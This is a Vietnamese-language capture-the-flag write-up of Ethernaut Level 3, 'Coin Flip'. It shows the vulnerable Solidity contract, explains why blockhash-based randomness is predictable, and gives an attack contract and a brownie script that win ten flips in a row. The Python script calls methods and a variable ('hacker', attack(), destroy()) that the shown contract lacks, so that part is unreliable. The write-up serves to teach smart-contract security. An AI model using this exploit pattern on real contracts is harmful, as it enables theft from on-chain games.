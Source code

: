 ```yaml
---
title: "[Ethernaut CTF] Level 3: Coin Flip"
date: 2023-10-01 14:25:00 +0800
categories: [Blockchain, Ethereum]
tags: [Blockchain, Solidity, Ethereum, CTF]
published: true
image:
 path: https://ethernaut.zeppelin.solutions/imgs/BigLevel3.svg
---
```

# Level 3: Coin Flip
## ★★☆☆☆
## Given contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```
## Phân tích
- Việc để đoán đúng 10 lần flip liên tiếp gần như là bất khả thi, ta sẽ tìm 1 cách khác.
- Trong contract ta để ý biến side được tính toán và sau đó so sánh đối số _guess :
```
    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;

```
- Điều chúng ta cần làm là tách function ra 1 cái riêng để tính toán là xong.

## Solution
**Target**: 10 lần consecutive win liên tiếp.  

- Compile và deploy contract này trên remix, sau đó gọi hàm ``flip()`` 10 lần:  

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.7.6 <0.9.0;
contract Attack {
    CoinFlip private immutable target;
    uint256 private constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _target) {
        target = CoinFlip(_target);
    }

    function flip() external {
        bool guess = _guess();
        require(target.flip(guess), "guess failed");
    }

    function _guess() private view returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        uint256 coinFlip = blockValue / FACTOR;
        return coinFlip == 1 ? true : false;
    }
}
```
- Một script bằng python để automate quá trình này cho nhanh:  
```python
from brownie import accounts, config, interface, web3, CoinFlip, CoinFlipAttack

def attack(target, account):
    deploy_attack = CoinFlipAttack.deploy(target, {"from": hacker})
    coinflip = CoinFlip.at(target)
    print(f'Address originating the attack:  {deploy_attack.address}')
    for i in range (0, 10):
        deploy_attack.attack({'from': account, 'gas_limit':250000, 'allow_revert': True})
    print(f'Number:  {coinflip.consecutiveWins()}')
    deploy_attack.destroy({'from': account})
    
def main(target):
    account = accounts.add(config['wallets']['from_key'])
    attack(target, account)
```
> Note: Thư viện ``brownie`` cung cấp cho ta các phương thức để communicate với ethereum network tương tự như ví metamask.
- Check lại số lần win:
```javascript
await contract.consecutiveWins
10
```
**Submit** -> Done

## Reference


